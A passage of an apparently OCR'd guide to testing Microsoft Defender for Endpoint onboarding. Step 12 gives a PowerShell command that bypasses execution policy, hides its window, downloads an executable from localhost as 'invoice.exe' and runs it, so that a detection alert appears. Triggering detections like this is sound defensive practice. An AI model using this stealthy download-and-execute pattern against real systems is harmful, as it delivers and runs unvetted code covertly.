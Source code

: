 11. Type **cmd** in the windows search bar, navigate to **Command
    Prompt** and right click on it, then select **Run as
    administrator**.

<img src="./media/image22.png" style="width:6.5in;height:5.2875in" />

12. In the command prompt, enter the following code and press the
    **Enter** button.

<span class="mark">Copy code</span>

**powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden
\$ErrorActionPreference= 'silentlycontinue';(New-Object
System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe',
'C:\\test-WDATP-test\\invoice.exe');Start-Process
'C:\\test-WDATP-test\\invoice.exe'**

13. The Command Prompt window closes automatically. Wait for 5-10
    minutes. If successful, a new alert appears in the portal for the
    onboarded device.
